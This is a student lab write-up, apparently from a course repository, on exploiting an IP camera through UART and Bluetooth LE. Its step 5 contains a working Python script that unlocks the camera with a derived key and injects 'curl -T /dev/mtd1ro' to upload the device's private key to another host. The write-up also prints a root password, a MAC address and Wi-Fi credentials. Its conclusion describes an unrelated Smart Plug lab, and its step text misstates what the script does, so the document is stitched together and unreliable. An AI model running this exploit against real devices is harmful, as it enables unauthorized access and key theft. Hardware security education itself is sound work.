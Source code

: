 # Research Group: Group A

## Laboratory Title: Exploiting an IP Camera

### Members:
- Ángel Vázquez
- Carolina Rodríguez
- Gabriel Figueroa
- Keishlyany Sanabria (Shadow)

## Lab Description:
### Objective and Goals:
##### Device Teardown
- Open the device
- Identify the chipset and their datasheet
- Find communication protocols used by different chips
- Analize System-on-Chip (SoC)
##### UART Pin Identification
- Find UART pads with the help of SoC pinouts
- Find UART pads/pins (pair of 4), which will provide the functionality for Transmit (Tx), Receive (Rx), GNG (Ground) and Vcc (Power)
- Find Tx, Rx, and Ground above the SoC
- Connect pins to Attify Badge and perform UART exploitation
##### Gain Root Access
- Find the baudrate of the device
- Interact over UART to obtain a root shell
- Find root password using the script and mac address
- Login to root user 

### Resources and Dependencies used:
##### Hardware:
- IP Camera
- Screwdriver kit
- Multimeter
- Attify Badge
- Jumper wires
- Micro USB Cable
##### Software:
- baudrate.py
- minicom


### Tasks (Lab Walkthrough):
##### Device Teardown (Setup):
1. Open up the device
2. Identify the various chipsets on the device (SoC, Network chip, Flash chip) 
3. Figure out their functionality, as well as locate their datasheets.
##### Pin Identification
1. Identify which pins correspond to the UART and see where the connection ends up. These pins are mostly assembled in groups of 3 or 4, and consist of connections for Rx, Tx, and Ground.
2. Perform a continuity test on the exposed pads 
##### Interacting with UART and Gain Root Shell Access
1. First, make sure that the camera board is properly connected to a power source, Attify Badge, and the breadboard (UART connection) to replace soldering
2. Once inside the Attify Virtual Machine, access the terminal and use the following commands in order to find the baudrate:

```
cd ~/tools/dev/tty*      ; lists the ttys available and make sure the badge is present

cd baudrate/             ; access the location of the baudrate.py script

sudo python baudrate.py  ; run the script, disconnect & connect the badge again
```


3. Press the **Up** arrow key to switch the preferred baudrate to 5500(?)
4. Let the script run; once you see readable data, hit **Ctrl+C** and wait for the script to ask you for the name you want to save the configuration with. Give it any name and hit **Enter**.
5. On a separate window, run the following script (```extract-private-key.py```) using the device mac address to get the needed password
```#extract-private-key.py
import hashlib
import base64
import asyncio

from bleak import BleakClient

# Pin code printed on the camera label
pincode = b"096641"

# The mac address of the IP camera to connect
mac_addr = "b0:c5:54:4b:8f:49"

def generate_cmd(cmd):
    return "P=;N={}&&({})&".format(pincode, cmd).encode()


def generate_unlock_command(device_name, pincode, challenge):
    hashit = device_name + pincode + challenge
    key = base64.b64encode(hashlib.md5(hashit).digest())[:16]
    return "M=0;K=".encode() + key


async def execute_cmd(client, cmdstr):
    cmd = generate_cmd(cmdstr)
    await client.write_gatt_char(
        "0000a201-0000-1000-8000-00805f9b34fb", cmd, response=True
    )


async def setup_wifi(client, essid, passwd):
    wifi_cfg = "M=0;I=" + essid + ";S=4;E=2;K=" + passwd
    await client.write_gatt_char(
        "0000a101-0000-1000-8000-00805f9b34fb", wifi_cfg.encode(), response=True
    )

    await client.write_gatt_char(
        "0000a102-0000-1000-8000-00805f9b34fb", "C=1".encode(), response=True
    )


async def main(mac_addr: str):
    async with BleakClient(mac_addr) as client:
        device_name = await client.read_gatt_char(
            "00002a00-0000-1000-8000-00805f9b34fb"
        )
        print("[+] Device name: ", device_name.decode())

        a001_data = await client.read_gatt_char("0000a001-0000-1000-8000-00805f9b34fb")
        M = a001_data.split(b";")[0].split(b"=")[1]
        C = a001_data.split(b";")[1].split(b"=")[1]

        if M == b"0":
            print("[+] Unlocked: Yes")
        else:
            print("[+] Unlocked: No")
            print("[*] Unlocking...")
            challenge = C
            print("[*] Challenge:", challenge.decode())

            unlock_cmd = generate_unlock_command(device_name, pincode, challenge)
            print("[*] Unlock command:", unlock_cmd.decode())

            await client.write_gatt_char(
                "0000a001-0000-1000-8000-00805f9b34fb", unlock_cmd, response=True
            )

            a001_data = await client.read_gatt_char(
                "0000a001-0000-1000-8000-00805f9b34fb"
            )
            M = a001_data.split(b";")[0].split(b"=")[1]

            if M != b"0":
                print("[!] Unlock failed")
                return
            else:
                print("[+] Successfully unlocked")

        print("[+] Setting up WiFi...")
        await setup_wifi(client, "acer", "11223344")

        print("[+] Press enter when camera is connected (status led:stable green)")
        input()

        print("[+] Exfiltrating private key")
        await execute_cmd(client, "curl -T /dev/mtd1ro http://10.42.0.1:8080")


loop = asyncio.get_event_loop()
loop.run_until_complete(main(mac_addr))
```

6. Enter the root login user and password (555718df)
7. Press ls to see all root files available


### Problems Encountered:
- Difficulty finding the correct datasheets for the chips.
- Difficulty finding the ```baudrate.py file```. Had to use the locate command to find the python file since a “no such file or directory exists” error popped up upon trying it for the first time.
- Device is not recognized by Computer. When looking for the entry names ttyUSB0 or ttyUSB1 to confirm if Attify Badge was connected, nothing was found, which meant it was not recognized.
- Port configuration made laptop crash and restart


### Conclusion:
The research group (Group A) conducted a lab to exploit a Smart Plug. The objective of the lab was to reverse engineer the mobile application used to control the Smart Plug, capture and analyze its network traffic, identify the encryption key and type being used, and control the Smart Plug without using the mobile device. In conclusion, Group A was unable to complete the Exploiting a Smart Plug lab due to difficulties controlling the smart plug. The outdated Python script used to create a proxy server to redirect traffic from the plug to the group's system was not functioning properly, which prevented the group from controlling the plug. Despite attempts to work around the issue, the group was unable to overcome this obstacle within the timeframe of the lab.
